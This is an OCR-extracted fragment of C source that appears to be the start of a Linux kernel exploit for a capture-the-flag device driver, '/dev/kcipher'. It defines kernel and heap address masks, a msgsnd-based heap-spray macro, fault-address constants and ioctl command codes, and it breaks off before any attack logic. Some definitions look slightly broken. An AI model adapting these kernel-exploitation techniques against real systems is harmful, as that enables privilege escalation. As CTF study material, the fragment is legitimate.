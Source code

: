 ```c
#include <sys/timerfd.h>
#include <sys/ioctl.h>


#define DEV_PATH "/dev/kcipher"   // the path the device is placed

#define ulong unsigned long
#define PAGE_SZ 0x1000
#define FAULT_ADDR 0xdead0000
#define FAULT_OFFSET PAGE
#define MMAP_SIZE 4*PAGE
#define FAULT_SIZE MMAP_SIZE - FAULT_OFFSET
#define ARRAY_SIZE(a) (sizeof((a)) / sizeof((a)[0]))
#define HEAP_MASK 0xffff000000000000
#define KERNEL_MASK 0xffffffff00000000

#define WAIT(void) {getc(stdin); \
                    fflush(stdin);}
#define errExit(msg) do { perror(msg); exit(EXIT_FAILURE); \
                        } while (0)

#define KMALLOC(qid, msgbuf, N) for(int ix=0; ix!=N; ++ix){\
                        if(msgsnd(qid, &msgbuf, sizeof(msgbuf.mtext) - 0x30, 0) == -1) \
                            errExit("KMALLOC"); \
                        }
static void print_hex8(void* buf, size_t len)
{
    uint64_t* tmp = (uint64_t*)buf;

    for (int i = 0; i < (len / 8); i++) {
        printf("%d: %p ", i, tmp[i]);
        if ((i + 1) % 2 == 0) {
            printf("\n");
        }
    }

    printf("\n");
}

void info(const char *format, ...) {
    va_list args;
    va_start(args, format);

    printf("[+] ");
    vprintf(format, args);

    va_end(args);
}

void error(const char *format, ...) {
    va_list args;
    va_start(args, format);

    printf("[x] ");
    vprintf(format, args);

    va_end(args);
}

#define CMD_ALLOC 0x13370000
#define CMD_FLIP  0x13370001

static void alloc(int fd, unsigned long sz)
```